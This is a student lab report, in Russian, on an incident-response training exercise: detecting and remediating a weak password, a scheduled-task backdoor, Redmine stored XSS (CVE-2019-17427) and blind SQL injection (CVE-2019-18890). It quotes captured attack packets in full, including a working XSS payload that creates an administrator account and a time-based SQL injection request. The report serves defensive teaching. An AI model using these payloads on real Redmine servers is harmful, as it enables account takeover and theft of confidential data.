 ```yaml
---
## Author
author:
    - Александрова У.В.,
    - Волгин И.А,
    - Голощапов Я.В.,
    - Дворкина Е.В.,
    - Серегина И.А.

## Title
title: "Отчет по лабораторной работе №1-С «ЗАЩИТА НАУЧНО-ТЕХНИЧЕСКОЙ ИНФОРМАЦИИ ПРЕДПРИЯТИЯ»"
subtitle: "Кибербезопасность предприятия"
license: "CC BY"
---
```


# Цель работы

Целью данной лабораторной работы является освоение практических навыков выявления, анализа и устранения уязвимостей информационных систем в рамках сценария «Защита научно-технической информации предприятия».

# Задание

- Обнаружить, проанализировать и закрыть уязвимости:

  1. Слабый пароль пользователя;

  2. XSS (CVE-2019-17427);

  3. Blind SQL (CVE-2019-18890).

- Определить и устранить последствия эксплуатации уязвимостей:

  1. Developer backdoor (последствие уязвимости 1);
  2. Redmine User (последствие уязвимости 2).

- Разработать и применить меры по устранению выявленных уязвимостей.

# Теоретическое введение

**VipNet IDS** (Intrusion Detection System) — это система обнаружения вторжений для защиты информационных систем от несанкционированного доступа и атак. VipNet IDS предназначена для мониторинга сетевого трафика в реальном времени, выявления подозрительной активности, анализа сигнатур известных атак и аномального поведения, а также генерации оповещений и рекомендаций по реагированию. Система интегрируется с другими компонентами комплекса VipNet, обеспечивая многоуровневую защиту корпоративной инфраструктуры [@ids-ns].

 **Слабый пароль пользователя** — типичная проблема конфигурации, при которой используется легко угадываемый или стандартный пароль (например, «admin», «123456» и т.п.). Такая уязвимость позволяет злоумышленнику получить несанкционированный доступ к учётной записи и, как следствие, к системе в целом.

 **XSS (межсайтовый скриптинг), CVE-2019-17427** — уязвимость в веб-приложении Redmine, позволяющая внедрять вредоносный JavaScript-код в веб-страницы, просматриваемые другими пользователями. Эксплуатация этой уязвимости может привести к краже сессионных cookie, подмене контента или выполнению действий от имени жертвы.

 **Blind SQL Injection, CVE-2019-18890** — уязвимость в Redmine, связанная с недостаточной фильтрацией пользовательского ввода, что позволяет злоумышленнику выполнять произвольные SQL-запросы к базе данных через слепые (blind) методы. Последствия включают извлечение, модификацию или удаление конфиденциальных данных, а также потенциальный выход за пределы приложения (например, выполнение команд ОС при определённых условиях).

 **Developer backdoor** — наличие скрытого (часто не задокументированного) входа, оставленного разработчиком, может позволить злоумышленнику обойти стандартные механизмы аутентификации и получить полный контроль над системой.

 **Redmine User** — компрометация учётной записи пользователя Redmine (например, через XSS или слабый пароль) даёт доступ к проектной документации, задачам, исходному коду и другим конфиденциальным данным, что особенно критично в контексте защиты научно-технической информации предприятия.

# Выполнение лабораторной работы

## Обнаружение уязвимостей

Уязвимости и последствия будут детектироваться в основном с помощью ViPNet IDS NS, далее записываться в карточки инцидентов [@lab].

Для обнаружения актуальной подозрительной активности пользуемся фильтрами по дате, времени и важности ([рис. @fig-012]).

![Установка фильтров](image/12.png){#fig-012 width=70%}

### Обнаружение уязвимости "Слабый пароль пользователя"

По сценарию нам известно, что

1. Внутренний нарушитель подбирает пароль на файловый сервер и меняет существующий на сервере файл другим файлом с backdoor (дефектом алгоритма).

2. Пользователь Dev-1 загружает и запускает файл с backdoor.

3.  Внутренний нарушитель получает контроль над компьютером пользователя Dev-1 и загружает скрипт для похищения учетных данных из браузера. Запускает данный скрипт, получает логин и пароль к Redmine.

Сначала было обнаружено сканирование системы и множество одинаковых событий со стороны 10.10.4.11 (узел менеджера) на 10.10.2.12 (файловый сервер), что может указывать на попытки подбора пароля. Далее Замечено событие класса "successful-admin", которое указывает на то, что пользователь успешно вошел в систему, подобрав пароль ([рис. @fig-101]). Кроме того, видим действия между узлами 10.10.4.11, 10.10.2.12, 10.10.4.13 (Developer Workstation), которые также указывают, что был скомпрометирован пароль от компьютера Developer Workstation.

А в пакетах к этому событию увидим: Windows PowerShell running as user dev1 on DEV-ARM-01. Еще одно подтверждение.

![Обнаружение входа в систему](image/101.jpg){#fig-101 width=70%}

Заполним карточку инцидента. Так как пароль был подобран, то уязвимость - слабый пароль пользователя. Рекомендации по устранению - изменить пароль на более сложный ([рис. @fig-015]).

![Карточка инцидента](image/15.png){#fig-015 width=70%}

### Обнаружение последствия "Developer backdoor"

В последующих событиях можем видеть создание исполняемого файла на файловом сервере 10.10.2.12 и обращения к нему ([рис. @fig-013])

![Детектирование создания неизвестного файла](image/13.png){#fig-013 width=70%}

Также находим событие класса trojan-activity (LaZagne), указывающее на часть атаки, запускающую программу для извлечения информации из браузера ([рис. @fig-014]).

LaZagne — это приложение с открытым исходным кодом, используемое для получения множества паролей, хранящихся на локальном компьютере [@lazagne].

![Обнаружение файла с backdoor](image/14.png){#fig-014 width=70%}

Заполним карточку инцидента. Первичные рекомендации по устранению последствия - удаление исполняемого файла с backdoor и остановка его работы ([рис. @fig-016]).

![Карточка инцидента](image/16.png){#fig-016 width=70%}

### Обнаружение уязвимости "XSS (CVE-2019-17427)"

4. Внутренний нарушитель проводит атаку stored XSS для включения на Redmine сервере REST API. Вредоносный код записывается на Wikiстраницу проекта Dev1. Получив доступ к консоли администратора, внутренний нарушитель создает нового пользователя Redmine с правами администратора.

Далее видим события с источником - 10.10.4.11 (предполагаемый нарушитель, менеджер), получателем - 10.10.2.15 (сервер Redmine, к нему по сценарию нарушитель получил доступ). Это события AM EXPLOIN Possible Redmine <v4.0.4 XSS и событие AM EXPLOIT Generic Possible XSS in HTTP Body: они говорят о том, что эксплуатируется уязвимость Redmine, существующая в версиях до 4.0.4, позволяющая внедрять вредоносный JavaScript-код в веб-страницы, просматриваемые другими пользователями ([рис. @fig-017]).

Также в пакетах к этому событию увидим:

```
POST /projects/dev1/wiki/Wiki/ HTTP/1.1
Host: redmine.ampire.corp
User-Agent: python-requests/2.31.0
...
Content-Type: multipart/form-data;
```

Это http-запрос на сервер Redmine с отправкой формы с данными

```
--8148d7a1c05d09d7c466c127bc05f0b7
Content-Disposition: form-data; name="content[text]"

<pre onfocusin="let xhr=new XMLHttpRequest;xhr.onreadystatechange=function(){if(4===xhr.readyState){doc=document.implementation.createHTMLDocument(''),doc.documentElement.innerHTML=xhr.responseText,value=doc.getElementsByName('authenticity_token');var e=encodeURIComponent(value[3].value);fetch('http://redmine.ampire.corp/users/',{method: 'POST', credentials: 'include', headers: {'Content-type':'application/x-www-form-urlencoded'}, body:'utf8=?&authenticity_token='+e+'&user[login]=hacker&user[firstname]=hacker&user[lastname]=hacker&user[mail]=hacker%40hacker.ru&user[language]=en&user[admin]=0&user[admin]=1&user[password]=hackerhacker&user[password_confirmation]=hackerhacker&user[generate_password]=0&user[must_change_passwd]=0&user[mail_notification]=only_my_events&user[notified_project_ids][]=&pref[no_self_notified]=0&pref[no_self_notified]=1&pref[hide_mail]=0&pref[hide_mail]=1&pref[time_zone]=&pref[comments_sorting]=asc&pref[warn_on_leaving_unsaved]=0&pref[warn_on_leaving_unsaved]=1&continue=Create+and+continue'});let n=new XMLHttpRequest;var t='utf8=?&authenticity_token='+e+'&settings[rest_api_enabled]=0&settings[rest_api_enabled]=1&settings[jsonp_enabled]=0&commit=Save';n.open('POST','http://redmine.ampire.corp/settings/edit?tab=api',!0),n.setRequestHeader('Content-type','application/x-www-form-urlencoded'),n.onreadystatechange=function(){4==n.readyState&&200==n.status&&console.log('Success!')},n.send(t)}},xhr.open('GET','http://redmine.ampire.corp/settings?tab=api'),xhr.send();" tabindex=1 style='height:1000px;width:1000px;' class=
--8148d7a1c05d09d7c466c127bc05f0b7
Content-Disposition: form-data; name="content[comments]"

--8148d7a1c05d09d7c466c127bc05f0b7
Content-Disposition: form-data; name="commit"

Save
--8148d7a1c05d09d7c466c127bc05f0b7
Content-Disposition: form-data; name="attachments[dummy][file]"; filename=""
Content-Type: application/octet-stream
```

А это изменение кода и коммит с сохранением (Save) изменений в коде.

![Обнаружение эксплуатации уязвимости](image/17.png){#fig-017 width=70%}

Также можем зайти через SSH подключение (работа в терминале) на сервер Redmine и проверить файл production.log (`cd /var/www/redmine-3.4.4/...`, `cat production log`) ([рис. @fig-104]). В этом файле увидим сильно отличающиеся от остальных этапы, говорящие о внедрении JS кода.

![Обнаружение эксплуатации уязвимости через логи](image/104.jpg){#fig-104 width=70%}

Составляем карточку уязвимости ([рис. @fig-018]), общее описание и рекомендации можно найти на сайте AMTIP [@amtip] ([рис. @fig-019]).

![Карточка уязвимости](image/18.png){#fig-018 width=70%}

![Общее описание уязвимости](image/19.png){#fig-019 width=70%}

### Обнаружение последствия "Redmine User"

Уже в ходе работы на сервере Redmine (подключение через WEB) было замечено следующее:

При переходе в проект DEV1 во вкладке wiki включен REST API ([рис. @fig-103]), а также в коде упоминается пользователь с именем hacker ([рис. @fig-020]), этого же странного пользователя мы обнаружим и в списках пользователей, кроме того, у него есть права администратора ([рис. @fig-021]). Этот же код мы видели в пакете события.

![Обнаружение REST API](image/103.jpg){#fig-103 width=70%}

![Упоминание пользователя в коде](image/20.png){#fig-020 width=70%}

![Подозрительный пользователь с правами администратора](image/21.png){#fig-021 width=70%}

Заполняем карточку инцидента, в рекомендациях удаление нового пользователя ([рис. @fig-022]).

![Карточка инцидента](image/22.png){#fig-022 width=70%}

### Обнаружение уязвимости "Blind SQL (CVE-2019-18890)"

5. Внутренний нарушитель ожидает, когда администратор просмотрит страницу с внедренным вредоносным кодом.

6. Внутренний нарушитель проводит Blind SQL-инъекцию, получает доступ к данным конфиденциального проекта.

Мы видим в событиях большое количество SQL запросов типа `SELECT SLEEP` и `SELECT FROM` от сервера 10.10.4.11 (нарушитель) на сервер Redmine 10.10.2.15, количество и постоянство которых настораживает ([рис. @fig-105]).

![SQL-запросы](image/105.jpg){#fig-105 width=70%}

В пакетах к запросам увидим:

```
GET /issues.xml?project_id=1&subproject_id=2,3-IF%20((select%20description%20from%20issues%20where%20subject%20like%20%22SECRET%25%22)%20like%20%224%25%22,%20SLEEP(5),%20null); HTTP/1.1
Host: redmine.ampire.corp
User-Agent: python-requests/2.31.0
```

Этот пакет указывает на попытку BLIND-SQL-инъекции через API Redmine, с целью извлечения данных из таблицы issues (например, описаний задач с заголовками, начинающимися на SECRET). Использование SLEEP(5) позволяет злоумышленнику косвенно определять, выполняются ли условия, на основе времени ответа сервера.

При заполнении карточки уязвимости ([рис. @fig-107]) ссылаемся на гитхаб [@sql] ([рис. @fig-025]).

![Карточка инцидента](image/107.jpg){#fig-107 width=70%}

![Источник информации об уязвимости](image/25.png){#fig-025 width=70%}

## Устранение уязвимостей и их последствий

### Уязвимость Слабый пароль пользователя DEV-1

Для закрытия уязвимости меняем пароль на более сложный, не содержащийся в словаре. Для изменения пароля на сервере MS Active Directory подключаемся к нему через удаленный рабочий стол. Открываем на нем «Active Directory Users and Computers» через комбинацю `Win+R` и ввод в поиск `dsa.msc`, переходим в users, находим dev1, меняем пароль для пользователя dev1 ([рис. @fig-001]), ([рис. @fig-002]).

![Пользователь dev1](image/1.png){#fig-001 width=70%}

![Смена пароля](image/2.png){#fig-002 width=70%}

### Последствие "Developer backdoor"

Через удаленный рабочий стол переходим на сервер Developer (10.10.4.13), на сервере через `Win+R` и ввод в поиск `taskschd.msc` сможем открыть планировщик задач ([рис. @fig-108]).

Нарушитель может создать сервис, автоматически запускающий исполняемый файл, который устанавливает Reverse Shell подключение. Новая задача, записанная нарушителем, находится на узле Developer 1  в планировщике задач ([рис. @fig-003]).

![Запуск исполняемого файла в планировщике](image/108.jpg){#fig-108 width=70%}

![Запуск исполняемого файла в планировщике](image/3.png){#fig-003 width=70%}

Удаляем задачу в планировщике, и теперь надо удалить файл. Во вкладке action мы обнаружили путь к файлу `C:\Users\dev1\Downloads\svchosting.exe`, благодаря этому нашли его и удалили.

![Путь к исполняемому файлу](image/109.jpg){#fig-109 width=70%}

### Уязвимость атака XSS

Для устранения этой уязвимости нам нужно будет зайти на Redmine и через веб-браузер, и через консоль по ssh подключению.

В Redmine до версии 4.0.4 постоянный XSS существует из-за ошибок форматирования при работе с textile текстом. В данном сценарии используется для включения REST API для эксплуатации следующей уязвимости  ([рис. @fig-004]).

![Пример добавления кода, выводящего на экран надпись XSS в wiki-страницу](image/4.png){#fig-004 width=70%}

Для устранения этой уязвимости необходимо внести изменения в код Redmine. Необходимо найти обработку текста wiki-страницы при наличии в тексте html-тегов. Из описания уязвимости понятно, что необходимо найти библиотеку для преобразования textile разметки в html. В Redmine за данное преобразование отвечает файл redcloth3.rb. Для устранения изменим в нем (все изменения через `nano \var\www\redmine-3.3.4\lib\redcloth3.rb`) следующие строки ([рис. @fig-005]). Удаляем тег pre из разрешенных тегов, версию правильного кода можем подсмотреть на github: `https://github.com/redmine/redmine/blob/master/lib/redmine/wiki_formatting/textile/redcloth3.rb` [@redmine].

![Содержимое файла redcloth3.rb](image/5.png){#fig-005 width=70%}

Код, исправляющий уязвимость CVE-2019-17427:

```
ALLOWED_TAGS = %w(redpre pre code kbd notextile)
	def escape_html_tags(text)
		text.gsub!(%r{<(\/?([!\w]+)[^<>\n]*)(>?)}) do |m|
			if ALLOWED_TAGS.include?($2) && $3.present?
				"<#{$1}#{$3}"
			else
				"<#{$1}#{'>' unless $3.blank?}"
			end
		end
	end
```

![Исправления в файле redcloth3.rb](image/6.png){#fig-006 width=70%}

После внесения изменений необходимо перезапустить службу веб-сервера `sudo systemctl restart nginx.service`. Видим, что уязвимость успешно устранена, так как изменилось отображение страницы на Redmine Wiki ([рис. @fig-007]).

![Успешное устранение уязвимости](image/7.png){#fig-007 width=70%}

### Последствие "Redmine User"

Нарушитель создал пользователя на портале Redmine. Пользователь, обладающий правами администратора, имеет неограниченный доступ к пользовательской базе. Для обнаружения добавления нового привилегированного пользователя заходим в консоль администратора Redmine, переходим в раздел «Administration» – «Users» и смотрим список существующих пользователей ([рис. @fig-008]).

![Список пользователей Redmine](image/8.png){#fig-008  width=70%}

Удаляем пользователя hacker через веб-интерфейс, успешно нейтрализуя последствие Redmine User.

### Уязвимость Blind SQL-инъекция

Эксплуатируемая уязвимость – CVE-2019-18890.

В Redmine до версии 3.2.9 и 3.3.x до версии 3.3.10 уязвимость позволяет пользователям Redmine получать доступ к защищенной информации с помощью сгенерированного объектного запроса. Уязвимость реализуется посимвольным перебором с замером времени ответа. В данном сценарии данная уязвимость используется для получения конфиденциальной информации из БД, минуя разграничение доступа Redmine. Время прихода пакета является индикатором: при запоздании пакета – символ подобран верно, иначе – перебор продолжается ([рис. @fig-106]). Попробуем сделать SQL запрос на WEB сервер Redmine SLEEP(2) (с помощью ссылки `http://redmine.ampire.corp/issues.xml?project_id=1&subproject_id=2,3-SLEEP(2)`), увидим, что время ожидания ответа возрастает почти до 9 секунд, что свидетельствует об инъекции.

![SQL-запрос](image/106.jpg){#fig-106  width=70%}

Для устранения этой уязвимости необходимо внести изменения в код Redmine. Снова через SSH заходим на Redmine с помощью консоли. Исходя из адреса и запроса следует найти местоположение скрипта, где происходит обработка параметра subproject_id. В данном случае рассмотрен файл `\var\www\redmine-3.3.4\app\models\query.rb` [@redmine].

Вносим изменения в код, добавляя фильтрацию значений ([рис. @fig-010]), ([рис. @fig-011]), и после перезапуска веб-сервера через команду `sudo systemctl restart nginx.service` уязвимость устраняется. (Зачеркнут продублированный инцидент)

![Содержимое файла query.rb до исправления уязвимости](image/10.png){#fig-010  width=70%}

![Содержимое файла query.rb с исправлением уязвимости](image/11.png){#fig-011  width=70%}

## Результат

После выполнения всех приведенных выше действий получим, что мы закрыли все обнаруженные инциденты ([рис. @fig-110]), и, соответственно, устранили уязвимости и последствия, предполагаемые этой лабораторной работой ([рис. @fig-111]).

![Закрытые инциденты](image/110.jpg){#fig-110  width=70%}

![Устраненные уязвимости и последствия](image/111.jpg){#fig-111  width=70%}

# Выводы

В ходе выполнения лабораторной работы были успешно достигнуты поставленные цели: освоены практические навыки выявления, анализа и устранения типовых уязвимостей информационной системы. В рамках сценария «Защита научно-технической информации предприятия» были обнаружены и закрыты критические уязвимости и их последствия эксплуатации.

# Список литературы{.unnumbered}

::: {#refs}
:::
